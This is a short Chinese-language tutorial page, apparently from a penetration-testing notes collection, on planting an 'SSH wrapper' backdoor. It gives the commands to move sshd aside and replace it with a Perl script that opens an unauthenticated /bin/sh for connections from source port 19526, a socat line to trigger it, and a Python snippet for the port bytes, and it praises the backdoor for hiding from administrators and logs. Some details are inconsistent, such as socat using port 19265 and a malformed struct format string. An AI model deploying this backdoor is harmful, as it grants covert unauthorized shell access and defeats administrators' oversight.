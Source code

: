 ```yaml
---
title: SSH wrapper
id: zhfly3485
---
```


# SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中。

```
cd /usr/sbin/
mv sshd ../bin
vim sshd //编辑sshd内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); // \x00\x00LF是19526的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart 
```

在本机执行

```
socat STDIO TCP4:127.0.0.1:22,sourceport=19265 
```

![image](../img/b1b05f542d6eedabdc0cc93ac8dd0651.png)

可以看到我利用socat限制了本地端口19526访问server的22端口反回一个sh窗。

修改端口可以修改..LF

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer) 
```

![image](../img/8f7edb0e96d9b0d030b39f5b538a1ddf.png)

优点：

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。